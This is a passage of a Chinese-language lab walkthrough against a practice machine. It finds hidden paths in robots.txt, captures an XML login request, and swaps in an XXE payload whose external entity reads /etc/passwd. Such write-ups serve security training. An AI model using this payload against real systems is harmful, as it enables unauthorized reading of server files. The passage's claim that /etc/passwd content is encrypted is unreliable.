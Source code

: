扫描到了一个`robot.txt`文件，这是一个网络爬虫指示文件，那我们就访问看一看。

**内容如下：**

```
User-agent: *
Allow: /

User-Agent: *
Disallow: /xxe/*
Disallow: /admin.php
```

那我们就访问一下`/xxe/`和`/xxe/admin.php`。

得到了两个不同的登陆界面。

> PS：御剑、dirsearch等Web目录扫描工具也行。
>



## 4

**补充一下`/etc/passwd`：**

`/etc/passwd` 是Linux下的一个重要的文件，用于存储 Linux 系统中用户的基本属性和登录 Shell 的记录，但是里面的内容是加密过的，所以通常访问这个文件只是为了验证一下。



我们尝试登陆`/xxe/`，用Burp抓包，数据包如下：

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.177.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 94
Origin: http://192.168.177.131
Connection: close
Referer: http://192.168.177.131/xxe/

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>pass</password></root>
```

因为是XML提交的数据，所以我们测试一下，将以下内容替换原数据包中的XML部分。

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<root><name>&sp;</name><password>hj</password></root>

```
